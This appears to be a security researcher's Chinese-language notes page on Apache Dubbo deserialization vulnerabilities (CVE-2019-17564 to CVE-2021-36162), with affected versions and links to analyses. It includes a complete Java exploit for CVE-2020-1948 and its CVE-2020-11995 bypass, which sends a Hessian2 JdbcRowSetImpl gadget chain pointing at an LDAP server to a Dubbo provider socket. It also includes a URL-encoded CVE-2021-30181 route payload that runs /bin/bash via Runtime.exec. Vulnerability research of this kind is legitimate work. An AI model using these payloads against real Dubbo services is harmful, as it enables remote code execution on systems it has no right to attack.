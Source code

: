 # Dubbo 

>Apache Dubbo 是伪装的、轻量级的Java RPC 服务框架。[RPC服务](https://www.zhihu.com/question/25536695) 
>[默认反序列化利用之hessian2](https://www.anquanke.com/post/id/197658)

### CVE-2019-17564
>spring (spring-web（5.1.9.RELEASE）) 的httpinvoker 可能存在反序列化漏洞 [docs](https://docs.spring.io/spring-framework/docs/5.1.0.RELEASE/spring-framework-reference/integration.html#remoting-httpinvoker)

http://www.lmxspace.com/2020/02/16/Apache-Dubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

https://www.mi1k7ea.com/2021/07/03/%E6%B5%85%E6%9E%90Dubbo-HttpInvokerServiceExporter%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

演示：https://github.com/vulhub/vulhub/blob/master/dubbo/CVE-2019-17564/README.zh-cn.md

### CVE-2020-1948
https://www.anquanke.com/post/id/209251
```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

### CVE-2020-11995

CVE-2020-1948的绕过

```
Dubbo 2.7.0 ~ 2.7.8
Dubbo 2.6.0 ~ 2.6.8
Dubbo 所有 2.5.x 版本
```

```java
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;
import marshalsec.util.Reflections;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;

/**
 *  CVE-2020-1948 exp
 *  if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
 *       throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
 *  }
 * 下面有绕过CVE-2020-11995
 * 调用的函数名为 "$invoke"、 "$invokeAsync"、"$echo"三者之一
 */
public class GadgetsTestHessian {

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:43658/ExecObject");
        rs.setMatchColumn("foo");
        Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        Reflections.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        Reflections.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
        //todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("com.threedr3am.learn.server.boot.DemoService");
        out.writeUTF("1.0");
        out.writeUTF("$invoke");//CVE-2020-11995  $invoke,$invokeAsync,$echo
        //todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        out.writeUTF("Ljava/util/Map;");
        out.writeObject(s);
        out.writeObject(new HashMap());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 12345);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
### CVE-2021-25641
>Dubbo Provider即服务提供方默认使用dubbo协议来进行RPC通信，而dubbo协议默认是使用Hessian2序列化格式进行对象传输的,不过可以通过更改dubbo协议的第三个flag位字节来更改为使用Kryo或FST序列化格式来进行Dubbo Provider反序列化攻击从而绕过针对Hessian2反序列化相关的限制来达到RCE。

https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/

```
CVE-2021-25641 利用版本需要判断

一方面dubbo-common必须<=2.7.3版本另一方面fj的版本要<=1.2.49 并且在2.7.4.1的版本中已经更新了fj版本所以不能使用(只是目前)

```
~~可以整理一个fastjson利用gadget~~

### CVE-2021-30179

分析：https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg
实验：https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488856&idx=1&sn=ee37514a5bfbf8c35f4ec661a4c7d45a&chksm=903933a8a74ebabecaf9428995491494f20e5b24a15f8d52e79d3a9dac601620c21d097cdc1f&scene=21#wechat_redirect

```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)

实验：https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488856&idx=1&sn=ee37514a5bfbf8c35f4ec661a4c7d45a&chksm=903933a8a74ebabecaf9428995491494f20e5b24a15f8d52e79d3a9dac601620c21d097cdc1f&scene=21#wechat_redirect

```
exp:https://github.com/lz2y/DubboPOC
```
Apache Dubbo默认支持泛化引用由服务端API接口暴露的所有方法，这些调用由GenericFilter处理。GenericFilter将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成pojo对象。

也就是说需要知道注册中心注册的接口名，方法名，才可以配合攻击。
```
也就是需要存在无授权服务注册中心比如zookeeper的无授权去获得接口名和方法名。使用工具**zookeeper-dev-ZooInspector.jar**

**个人认为CVE-2021-30179的主要思路就是Apache Dubbo在处理泛类引用时，提供了多种通过反序列化方式得到对象再生成pojo对象的选择。** 三梦师傅说跟这个思路扩大了反序列化挖掘思路

### CVE-2021-30181

https://articles.zsxq.com/id_28iczv3uhbtk.html

```exp
script%3A%2F%2F127.0.0.1%2Fcom.threedr3am.learn.server.boot.DemoService%3Fapplication%3Ddubbo-consumer%26category%3Drouters%26check%3Dfalse%26dubbo%3D2.0.2%26init%3Dfalse%26interface%3Dcom.threedr3am.learn.server.boot.DemoService%26metadata-type%3Dremote%26methods%3Dhello%26pid%3D53953%26qos.enable%3Dfalse%26release%3D2.7.7%26revision%3D1.0%26side%3Dconsumer%26sticky%3Dfalse%26timestamp%3D1622381389749%26version%3D1.0%26route%3Dscript%26type%3Djavascript%26rule%3Ds%253D%255B3%255D%253Bs%255B0%255D%253D'%252Fbin%252Fbash'%253Bs%255B1%255D%253D'-c'%253Bs%255B2%255D%253D'open%2520-a%2520calculator'%253Bjava.lang.Runtime.getRuntime().exec(s)%253B
```

### Dubbo反序列化RCE利用之新拓展面 - Dubbo Rouge攻击客户端

https://xz.aliyun.com/t/7354

**文章中有一点非常强**
![image](https://user-images.githubusercontent.com/63966847/139078049-28694796-bb21-40fe-9e8d-38d96da29ab8.png)

在一次看了threedr3am师傅的文章太精彩了，简单的说就是通过注册中心上注册恶意rpc服务并且设置序列化为java原生序列化，等待客户端去连接。
也就是**rouge**,中文名称叫胭脂，hhh 有点美人计的味道了。

### CVE-2021-43297

https://paper.seebug.org/1814/

### Dubbo 2.7.8多个远程代码执行漏洞

https://xz.aliyun.com/t/8917

### CVE-2021-36162

[Apache Dubbo CVE-2021-36162 挖掘过程
](https://mp.weixin.qq.com/s?__biz=MzkyMTI0NjA3OA==&mid=2247487450&idx=1&sn=895a573a105cff858990df8bb88aafc5&chksm=c187cfcbf6f046ddbe75a826d851ebeafbcc7449e728a6be0e3ad60279ae7689ef14d4181757&mpshare=1&scene=23&srcid=0323KHKv3qtNyGs5a4jlCoz5&sharer_sharetime=1648033016703&sharer_shareid=33fdea7abe6be586e131951d667ccd06#rd)
